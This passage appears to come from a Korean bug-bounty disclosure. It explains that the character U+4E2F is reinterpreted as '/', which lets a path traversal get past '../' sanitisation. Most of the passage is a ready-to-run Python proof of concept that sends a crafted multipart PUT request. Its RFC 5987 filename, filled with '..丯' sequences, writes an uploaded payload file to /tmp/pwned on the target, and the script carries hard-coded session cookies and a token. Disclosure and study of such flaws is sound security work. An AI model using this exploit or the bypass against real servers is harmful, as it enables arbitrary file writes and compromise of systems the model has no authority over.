 원래라면 `../` 구문이 정제되었겠지만 해당 코드로 인해 특수문자를 사용하여 우회할 수 있다.

`丯` 문자는 U+4E2F문자로 위의 잘못된 구문으로 인해 U+002F(/)문자열로 재해석된다.

https://huntr.com/bounties/92a875fe-c5b3-485c-b03f-d3185189e0b1

```python
import requests
from urllib.parse import quote

URL = "http://127.0.0.1:3000/api/answers/ad8f99b0-0c32-4c40-ba30-34af54148a0f"

cookies = {
    "JSESSIONID": "CFEF4335ED24DBD59C8F3693E6BD9FEF",
    "token":      "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjp7ImlkIjoiNjg3ZjhiYzFhM2YzMjZlMjk0Mzc5MTM1Iiwicm9sZSI6Imd1aWRlIn0sImlhdCI6MTc1MzE4OTM3MCwiZXhwIjoxNzUzMjc1NzcwfQ.RYUt6JOK3-AO_NPk2COVeT_jO_uPor1OH6shiiu3L8A"
}

with open("payload.bin", "rb") as f:
    file_content = f.read()

file_name_raw = "/tmp/pwned"
filename = "..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯" + file_name_raw.replace("/", "丯")

filename_rfc5987 = f"UTF-8''{quote(filename)}"
boundary = "----WebKitFormBoundaryWzBpweyhtRcd9i8R"
dash_boundary = f"--{boundary}"

body = bytearray()

body += (
    f"{dash_boundary}\r\n"
    'Content-Disposition: form-data; name="text"\r\n\r\n'
    "asdfasdfasdf\r\n"
).encode()

body += (
    f"{dash_boundary}\r\n"
    'Content-Disposition: form-data; name="rating"\r\n\r\n'
    "5\r\n"
).encode()

body += (
    f"{dash_boundary}\r\n"
    f'Content-Disposition: form-data; name="image"; filename*={filename_rfc5987}\r\n'
    "Content-Type: text/html\r\n\r\n"
).encode()
body += file_content + b"\r\n"
body += (f"{dash_boundary}--\r\n").encode()

headers = {
    "Content-Type": f"multipart/form-data; boundary={boundary}",
    "Cookie": "; ".join(f"{k}={v}" for k, v in cookies.items()),
}

resp = requests.put(URL, data=body, headers=headers, timeout=10)
print(resp.status_code, resp.text)

```
